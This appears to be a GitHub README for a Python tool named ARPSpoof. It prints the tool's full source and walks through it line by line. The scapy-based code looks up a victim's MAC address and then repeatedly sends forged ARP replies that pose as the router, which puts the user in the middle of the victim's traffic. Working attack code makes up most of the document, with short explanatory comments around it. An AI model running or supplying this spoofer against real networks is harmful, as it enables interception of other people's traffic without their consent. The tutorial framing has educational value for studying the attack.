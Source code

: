 ## Description
***
ARPspoof is a tool written in python designed to perform ARP spoofing attack.
This tool allows the user to manipulate and intercept network traffic, is able to find MAC address from the victim IP address

ARP (address resolution protocol) a protocol that links an IP addres with a MAC of an endpoint.
## Code explanation
***
```
import subprocess, time
import scapy.all as scapy
from termcolor import colored as cl
from pyfiglet import figlet_format as ff
```
##### `import subprocess, time`
***
`subprocess` is a module that allows you to spawn new processes.
`time` is a time management function.

##### `import scapy.all as scapy`
***
Scapy is a powerful interactive packet manipulation library written in Python. Scapy is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more.
import `scapy.all` assigns the alias `scapy`.

##### `from termcolor import colored as cl`
***
Termcolor is an ANSI color formatting for output in terminal
import the function `colored` from `termcolor` library and assigns alias `cl`.

##### `from pyfiglet import figlet_format as ff`
***
It takes ASCII text and renders it in ACII art fonts 
import `filglet_format` from `pyfiglet` library and assigns alias `ff`.

```
def get_mac_address(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    broadcast_arp_request = broadcast/arp_request
    data = scapy.srp(broadcast_arp_request, timeout=1,        verbose=False)[0]
    mac = data[0][1].hwsrc
    return mac
```

create an ARP packet that requestthe MAC address associated with the given IP, this packet is encapsulated into the ethernet packet, srp send the packet and wait for reaponse, the MAC got extracted from the response
#### def get_mac_address(ip)
***
definition of the function `get_mac_address`, take the IP address and uses to make ARP request.

#### arp_request = scapy.ARP(pstd=ip)
***
scapy.ARP create an ARP request, protocol destination (pdst) set the destination IP.


#### broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
***
create an ethernet packet, with broadcast MAC setted.

#### broadcast_arp_request = broadcast/arp_request
***
we used `/` to combine both ARP and broadcast ethernet Packet, this will make the endpoint to answer back with his MAC address.

#### data = scapy.srp(broadcast_arp_request, timeout=1, verbose=False)[0]
***
`srp()` function send packet and recives packets at layer, `broadcas_arp_request` the packet we created, 
`timeout=1` wait 1 second,
`false` disable the detailed output, 
`srp` return a tuple, where the first element contain all the responses, [0] take that list

#### mac = data{0}{1}.hwsrc
***
the MAC address got extracted from the answer, `data` take the element from the list that contains request and response, `[1]` take the request
`hwsrc` contains the MAC address of the endpoint who sended the response

#### return = mac
***
output the MAC 

```
def arp_spoofing(tip, rip):
    tmac = get_mac_address(tip)
    cnt = 0
    while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac, psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```

#### def arp_spoofing(tip, rip)
***
definition of the function `arp_spoofing(tip, rip)` target ip/router ip
#### tmac = get_mac_address(tip)
call the function `get_mac_address` taking the MAc of the target ip, the result is stored into tmac

#### cnt = 0
***
count the packet and track the number of packets

``` 
while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
            program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```
***
`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
`program\n\t\t\t-An AYLIT production', 'red'))print(cl('='*50, 'red'))` graphic stuff

#### packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
***
create a packet containing all the components, `op=2` specify the kind of ARP operation 2 specify response, `pdst=tip` set the destination IP, `hwdst=tmac` set the MAC, `psrc=rip` set the source IP that will be covered with rip

#### scapy.send(packet, verbose=False)
***
send the packet, `false` supress the detailed output


`cnt += 2` +2 on the counter
`print(cl(f'Packets sent: {str(cnt)}', 'green')` print the number of packets sent
`time.sleep(1)` introduce 1 second pause

#### subprocess.call(`clear`, shell=True)
***
clear the terminal

#### except KeyboardInterrupt: print(cl(f'Quitting program...', 'red')) break
***
when a user press `ctrl + c` an exit message get printed, `break` quit the cicle

```
subprocess.call('clear', shell=True)

print(cl('='*50, 'red'))
print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
print(cl('='*50, 'red'))

target_ip = input(cl("Enter the target's IP:", 'yellow'))
router_ip = input(cl("Enter the router's IP:", 'yellow'))
subprocess.call('clear', shell=True)

arp_spoofing(target_ip, router_ip)
```

#### subprocess.call('clear', shell=True)
***
clear the terminal

`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
`print(cl('='*50, 'red'))`  
***
graphic stuffs

#### target_ip = input(cl("Enter the target's IP:", 'yellow'))
***
ask the user to insert target IP

#### router_ip = input(cl("Enter the router's IP:", 'yellow'))
***
ask the user to insert router IP

#### subprocess.call('clear', shell=True)
clear the terminal

#### arp_spoofing(target_ip, router_ip)
***
call the function `arp_spoofing` using the target/router IP asked
